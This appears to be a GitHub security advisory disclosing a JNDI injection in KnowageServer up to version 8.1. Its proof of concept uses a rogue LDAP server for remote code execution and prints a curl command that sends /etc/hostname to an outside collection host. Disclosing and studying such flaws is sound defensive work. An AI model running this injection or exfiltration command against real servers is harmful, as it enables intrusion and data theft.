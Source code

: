 ## Overview
KNOWAGE is the open source analytics and business intelligence suite that allows you to combine traditional data and big/cloud data sources into valuable and meaningful information.

## Description
**KnowageServer, up to version **8.1**, does not properly validate user input for the “jndi” field in the “data sources” configuration panel. This behavior allows any user with role type “Administrator” (“roleTypeID”:28) to change the JNDI source at will by inserting a potentially malicious one, which could lead to remote code execution.**

JNDI injection is a type of attack that occurs when an attacker is able to inject malicious data into the JNDI data source used by an application, allowing them to execute arbitrary code on the application server. Proper validation and sanitization of user input can prevent this type of attack by ensuring that only safe data is used in JNDI queries.

## PoC
The following PoC demonstrates how Remote Code Execution within the Knowage server can be achieved thanks to this vulnerability: Leveraging a malicious LDAP server will be conveyed the command `curl -d @/etc/hostname http://<redacted>.oastify.com` to exfiltrate the /etc/hostname file to a third http exfiltration server.

The attack process begins with the preparation of an LDAP server, which, upon receiving a request for an object (in our case “o=exploit”), responds with a Reference Ref object containing the command `curl -d @/etc/hostname http://<redacted>.oastify.com`. 
To perform this operation, this PoC uses **Rogue JNDI**, a malicious server developed by Veracode Research.

After starting the LDAP server, we edit the data source using the UI. The address of the malicious server is entered into the JNDI field as shown in the figures below. 
By clicking “TEST” on the UI the input is processed and the attack is launched.

<img width="610" alt="Evidence1" src="https://github.com/user-attachments/assets/435724f3-8677-4078-b8c2-8e818592b009">

<img width="760" alt="Evidence2" src="https://github.com/user-attachments/assets/40c8bbba-e7e0-4cea-b7fb-206d00c4338c">

By inspecting the log of the attacking server, it can be seen that the attack was launched.

![Evidence3](https://github.com/user-attachments/assets/dba1529e-dd8d-4562-980a-976875c04176)

Upon receiving the “o=exploit” object, the Knowage server executes the `curl -d @/etc/hostname http://<redacted>.oastify.com` command. 
By inspecting the log of the the exfiltration-server, it can be seen that the code execution was successful: the server received a POST request containing the /etc/hostname file.

<img width="326" alt="Evidence4" src="https://github.com/user-attachments/assets/9e549d15-b3dc-4f2f-ac83-477345c67430">

The correctness of the received hostname can be seen in the Knowage licensing page, as shown in the figures below.

<img width="757" alt="Evidence5" src="https://github.com/user-attachments/assets/6d1d6060-577e-490f-8822-496f0f13b316">

## Timeline
- **07-10-2024**: The vulnerability was found and privately disclosed to the vendor;
- **16-10-2024**: A fix was released in version 8.1 as per commit: https://github.com/KnowageLabs/Knowage-Server/commit/f7d0362f737e1b0db1cc9cc95b1236d62d83dd0c 
- 
